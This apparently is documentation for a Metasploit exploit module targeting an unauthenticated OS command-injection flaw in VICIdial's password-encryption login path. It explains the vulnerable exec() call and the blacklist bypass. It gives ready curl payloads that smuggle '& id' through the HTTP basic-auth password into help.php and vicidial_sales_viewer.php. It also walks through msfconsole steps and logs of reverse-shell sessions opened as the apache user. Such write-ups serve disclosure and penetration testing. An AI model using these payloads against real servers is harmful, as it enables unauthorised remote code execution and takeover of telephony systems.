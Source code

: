 ## Description

  This module exploits a vulnerability in VICIdial versions 2.9 RC1 to 2.13 RC1 which allows unauthenticated users to execute arbitrary operating system commands as the web server user if password encryption is enabled (disabled by default).

  When password encryption is enabled the user's password supplied using HTTP basic authentication is used in a call to `exec()`.

  This module has been tested successfully on version 2.11 RC2 and 2.13 RC1 on CentOS.


## Vulnerable Application

  VICIDIAL is a software suite that is designed to interact with the Asterisk Open-Source PBX Phone system to act as a complete inbound/outbound contact center suite with inbound email support as well. 

  This module has been tested successfully on version 2.11 RC2 and 2.13 RC1 on CentOS.

  Installers:

  * [VICIdial 2.11 RC1](https://sourceforge.net/projects/astguiclient/files/astguiclient_2.11rc1.zip/download)
  * [VICIdial 2.13 RC1](https://sourceforge.net/projects/astguiclient/files/astguiclient_2.13rc1.zip/download)

  Follow the [instructions to enabled password encryption](http://vicidial.org/docs/ENCRYPTED_PASSWORDS.txt).


## Technical Details

  The `functions.php` file defines a function called `user_authorization`:

  ```php
  function user_authorization($user,$pass,$user_option,$user_update)
  ```
 
  This function is used throughout the application to validate user logon credentials supplied using HTTP basic authentication. If password encryption is enabled the user's password is passed to the `pass` argument of the `bp.pl` Perl script, without quotes, using PHP's `exec()` function:

  ```php
  if ($SSpass_hash_enabled > 0)
          {
          if (file_exists("../agc/bp.pl"))
                  {$pass_hash = exec("../agc/bp.pl --pass=$pass");}
          else
                  {$pass_hash = exec("../../agc/bp.pl --pass=$pass");}
  ```

  A rudimentary blacklist is used to prevent command injection. The apostrophe `'`, quote `"`, semi-colon `;` and backslash `\` characters are removed from the user's username and password using `preg_replace`, like so:

  ```php
  $user = preg_replace("/\'|\"|\\\\|;/","",$user);
  $pass = preg_replace("/\'|\"|\\\\|;/","",$pass);
  ```

  It is trivial to bypass the blacklist.

  For example, backticks ``` ` ```, pipe `|` or ampersand `&` are sufficient to bypass the blacklist and execute arbitrary operating system commands.

  For the purposes of exploitation, reaching the `user_authorization` function call with malicious input is hindered by additional input validation in use prior to the authentication check throughout the majority of the codebase:

  ```php
  $PHP_AUTH_USER = preg_replace('/[^-_0-9a-zA-Z]/', '', $PHP_AUTH_USER);
  $PHP_AUTH_PW = preg_replace('/[^-_0-9a-zA-Z]/', '', $PHP_AUTH_PW);
  ```

  However, in VICIdial version 2.11RC2, at least two files did not make use of the additional validation:

  * help.php
  * vicidial_sales_viewer.php

  In VICIdial version 2.13RC1, at least one file did not make use of the additional validation:

  * vicidial_sales_viewer.php

  This vulnerability was patched in revision 2759.


## Proof of Concept

  ```bash
  $ curl -isk "https://VICIdial.local/vicidial/vicidial_sales_viewer.php" \
  --user 'anyusername:anypassword& id>/tmp/pwned_by_sales_viewer #'
  ```

  ```bash
  $ curl -isk "https://VICIdial.local/vicidial/help.php" \
  --user 'anyusername:anypassword& id>/tmp/pwned_by_help #'
  ```

  Note that `/tmp/pwned_by_help` and `/tmp/pwned_by_sales_viewer` files should contain the results of the `id` command.


## Verification Steps

  1. Start `msfconsole`
  2. Do: `use exploit/unix/webapp/vicidial_user_authorization_unauth_cmd_exec`
  3. Do: `set rhost [IP]`
  4. Do: `run`
  5. You should get a session


## Scenarios

  ```
  msf exploit(vicidial_user_authorization_unauth_cmd_exec) > check
  [*] 172.16.191.150:80 The target appears to be vulnerable.
  msf exploit(vicidial_user_authorization_unauth_cmd_exec) > run

  [*] Started reverse TCP handler on 172.16.191.181:4444 
  [*] 172.16.191.150:80 Sending payload (505 bytes)
  [+] 172.16.191.150:80 Payload sent successfully
  [*] Command shell session 1 opened (172.16.191.181:4444 -> 172.16.191.150:36660) at 2017-05-27 01:00:41 -0400

  id
  uid=48(apache) gid=48(apache) groups=48(apache)
  ```


### Verbose

  ```
  msf exploit(vicidial_user_authorization_unauth_cmd_exec) > set verbose true
  verbose => true
  msf exploit(vicidial_user_authorization_unauth_cmd_exec) > check

  [*] 172.16.191.150:80 Password encryption is supported, but may not be enabled.
  [*] 172.16.191.150:80 The target appears to be vulnerable.
  msf exploit(vicidial_user_authorization_unauth_cmd_exec) > run

  [*] Started reverse TCP handler on 172.16.191.181:4444 
  [*] 172.16.191.150:80 Sending payload (505 bytes)
  [+] 172.16.191.150:80 Payload sent successfully
  [*] Command shell session 2 opened (172.16.191.181:4444 -> 172.16.191.150:36661) at 2017-05-27 01:00:48 -0400

  id
  uid=48(apache) gid=48(apache) groups=48(apache)
  ```

